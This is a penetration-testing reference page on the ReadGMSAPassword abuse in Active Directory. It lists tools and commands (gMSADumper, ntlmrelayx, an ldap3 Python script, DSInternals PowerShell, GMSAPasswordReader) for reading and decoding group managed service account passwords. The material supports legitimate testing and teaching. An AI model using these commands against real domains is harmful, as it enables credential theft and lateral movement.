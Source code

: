 # ReadGMSAPassword

This abuse can be carried out when controlling an object that has, for instance, `AllExtendedRights` over a target computer.

The attacker can read the gMSA (group managed service accounts) password of the account.&#x20;

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, [gMSADumper](https://github.com/micahvandeusen/gMSADumper) (Python) can be used to read and decode gMSA passwords. It supports cleartext NTLM, pass-the-hash and Kerberoas authentications.

```bash
gMSADumper.py -u 'user' -p 'password' -d 'domain.local'
```

****

**Alternative #1**: Impacket's [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) tool can be used to read and decode gMSA passwords. :warning: Some tests showed ntlmrelayx missed entries gMSADumper didn't.

```bash
ntlmrelayx.py -t ldaps://10.0.0.5 -debug --dump-gmsa --no-dump --no-da --no-acl --no-validate-privs 
```

{% hint style="success" %}
In order to easily fake a relayed authentication, once the relay servers are up and running, the tester can browse [http://127.0.0.1/](http://127.0.0.1) in order to trigger a basic authentication that will then be relayed by ntlmrelayx, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96).
{% endhint %}



**Alternative #2**: The `msDS-ManagedPassword` attribute can also be manually obtained by running the following Python script. The [following code](https://github.com/SecureAuthCorp/impacket/blob/3f3002e1c1dd78a5ee6100d6824ff7b65bbb92b6/impacket/examples/ntlmrelayx/attacks/ldapattack.py#L672-L702) can then be used to decode the blob.

```python
import ldap3
target_dn = "" # something like 'CN=Target User,OU=Standard Accounts,DC=domain,DC=local'
domain = "domain"
username = "username"
user = "{}\\{}".format(domain, username)
password = "password"
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = NTLM)
connection.bind()
connection.search(target_dn, '(&(ObjectClass=msDS-GroupManagedServiceAccount))', search_scope=SUBTREE, attributes=['sAMAccountName','msDS-ManagedPassword'])
print(connection.entries)
```
{% endtab %}

{% tab title="Windows" %}
On Windows systems, there are multiple ways to read gMSA passwords.

The first one uses the Active Directory and DSInternals PowerShell modules.

```bash
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
```

The second one relies on [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) (C#).

```bash
.\GMSAPasswordReader.exe --AccountName 'Target_Account'
```
{% endtab %}
{% endtabs %}
